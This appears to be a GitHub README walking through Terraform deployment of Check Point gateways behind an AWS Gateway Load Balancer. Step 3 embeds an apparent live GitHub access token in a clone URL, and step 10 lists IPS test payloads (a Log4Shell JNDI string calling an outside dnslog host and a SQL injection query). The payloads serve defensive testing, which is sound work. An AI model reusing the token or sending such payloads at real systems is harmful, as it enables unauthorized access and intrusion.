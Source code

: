 # Deploy GWLB load-balanced Check Point Security Gateways into centralized Security VPC

## Goals

### Architecture

Ilustration picture:
![](2023-02-07-08-53-48.png)

## Steps

### 1. AWS Cloud Shell
Open [AWS CloudShell](https://eu-central-1.console.aws.amazon.com/cloudshell/home?region=eu-central-1#) in your region.

### 2. Make sure Terraform is available
```bash
git clone https://github.com/tfutils/tfenv.git ~/.tfenv
mkdir ~/bin
ln -s ~/.tfenv/bin/* ~/bin/
tfenv install
tfenv use
terraform -version
```

### 3. Clone repo
```bash
git clone https://mkol5222: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@github.com/mkol5222/tf-security-vpc.git ~/tf-security-vpc

cd ~/tf-security-vpc
```

### 4. Build test environment VPC

Review inputs
```
cd ~/tf-security-vpc/01-test-env/
cp terraform.tfvars.sample terraform.tfvars
vi terraform.tfvars
```

Deploy
```
terraform init
terraform apply
```

### 5. Place instances to TGW attachment subnets
Collect inputs
```
(cd ~/tf-security-vpc/01-test-env/; terraform output)
```

Set inputs
* *vpc_id* and *region*
* *subnets_ids_list*
```
cd ~/tf-security-vpc/02-instances
cp terraform.tfvars.sample terraform.tfvars
vi terraform.tfvars
```

Deploy
```
terraform init
terraform apply
```

### 6. Deploy GWLB and Check Point Security Gateways in ASG
Collect inputs
```
(cd ~/tf-security-vpc/01-test-env/; terraform output)
```

Set inputs
* *vpc_id* 
* *region*
* *chkp_gw_subnet_ids_list*
* *chkp_gwlbe_subnets_ids_list*
```
cd ~/tf-security-vpc/03-chkp-gwlb
cp terraform.tfvars.sample terraform.tfvars
vi terraform.tfvars
```

Deploy
```
terraform init
terraform apply
```

### 7. Check Point Management side
Learn CME provisioning command
```
(cd ~/tf-security-vpc/03-chkp-gwlb/; terraform output -json | jq -r '."cme-command".value')
```

Make sure CME is installed and login to CHKP Management server to run this command. Command looks like:
```
autoprov_cfg -f init AWS -ak AKIAZTAmodified -sk /MNFoeHQdbTBVnammodified -mn chkp-mgmt -tn chkp-gwlb-template -cn gwlb-controller -po Standard -otp Vpn12modified -r eu-central-1 -ver R80.40
```

Enable additional blades -  e.g. Identity Awareness and IPS:
```
autoprov_cfg set template -tn chkp-gwlb-template -ips
autoprov_cfg set template -tn chkp-gwlb-template -ia
```

### 8. Monitor CME provisioning on Management Server

Open SmartConsole and monitor Gateways section for ASG instances to appear and to be provisioned with policy.

Monitor CME progress in CME log on CHKP Management:
```
 tail -f /var/log/CPcme/cme.log
```

### 9. Route traffic through GWLBe

In [route tables for TGW attachment subnets](https://eu-central-1.console.aws.amazon.com/vpc/home?region=eu-central-1#RouteTables:search=tgw), route via GWLBe instead of NAT Gateway. Route to GWLBe in same AZ.

In [route tables for NAT Gateways](https://eu-central-1.console.aws.amazon.com/vpc/home?region=eu-central-1#RouteTables:search=chkp-nat), route back to TGW attachment subnet in same region via GWLBe in same region.

### 10. Test traffic from instances in TGW attachment subnet

Connect to instances using Session Manager and initiate traffic to Internet (*curl*, *ping*, etc.). Monitor Check Point logs.

Keep connecting and report egress IP. Run on instance in TGW attachment subnet.
```
while true; do I=$(curl -s ip.iol.cz/ip/); echo $I; done
```

Other example:
```
while true; do date; ping -c 3 1.1.1.1; echo; done
```

Cause IPS incidents (should be prevented/catched by IPS if configured):
```
curl http://www.cpcheckme.com/ -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}' -v

curl -k 'http://www.cpcheckme.com/mutillidae/index.php?page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details'
```

## Various materials

* Check Point Cloud Management [Admin Guide](https://sc1.checkpoint.com/documents/IaaS/WebAdminGuides/EN/CP_CME/Content/Topics-CME/Overview.htm)
* Check Point CloudGuard Controller [Admin Guide](https://sc1.checkpoint.com/documents/R81.10/WebAdminGuides/EN/CP_R81.10_CloudGuard_Controller_AdminGuide/Topics-CGRDG/Introduction.htm)
* Check Point CGNS TerraForm modules [GitHub repo](https://github.com/CheckPointSW/CloudGuardIaaS/tree/master/terraform/aws)
* CGNS AWS Gateway LoadBalancer - Deep Dive Webinar [materials](https://community.checkpoint.com/t5/Cloud-Network-Security/AWS-Gateway-LoadBalancer-Deep-Dive-Webinar/td-p/117827) and [diagram](https://community.checkpoint.com/t5/Cloud-Network-Security/The-Workshop-AWS-Gateway-LoadBalancer-amp-CloudGuard-Network/td-p/145715)
* AWS workshop on CHKP CGNS with GWLB with [traffic flows](https://checkpoint.awsworkshop.io/02handsonflows/3_centegress.html)
